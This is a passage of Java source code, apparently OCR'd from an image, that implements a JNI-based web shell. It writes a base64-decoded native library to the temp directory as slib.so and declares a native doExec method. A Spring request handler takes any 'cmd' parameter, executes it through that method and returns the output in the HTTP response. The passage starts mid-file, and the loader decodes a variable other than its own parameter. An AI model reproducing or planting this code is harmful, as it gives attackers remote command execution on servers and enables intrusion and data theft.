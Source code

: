 ```java
        }
    }

    public native String doExec(String cmd);

    /**
     * 写JNI链接库文件
     * @param base64 JNI动态库Base64
     * @return 返回是否写入成功
     */
    public  static  String getJNILibFile(String base64) throws IOException {
        if (base64 != null) {
            File jniDir = new File(System.getProperty("java.io.tmpdir"), "jni-lib");

            if (!jniDir.exists()) {
                jniDir.mkdir();
            }

            String filename;

            filename = "slib.so";

            File jniFile =  new File(jniDir, filename);

            if (!jniFile.exists()) {
                byte[] bytes = Base64.getDecoder().decode(jniCodes);

                if (bytes != null) {
                    FileOutputStream fos = new FileOutputStream(jniFile);
                    fos.write(bytes);
                    fos.flush();
                    fos.close();
                }
            }
            return jniFile.getAbsolutePath();
        }
        return "";
    }

    @ResponseBody
    public void index() throws IOException {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        try{
            String cmd = request.getParameter("cmd");
            if (cmd != null && cmd.length() > 0) {
                response.getWriter().write(doExec(cmd));
                response.getWriter().flush();
            }
            return;
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
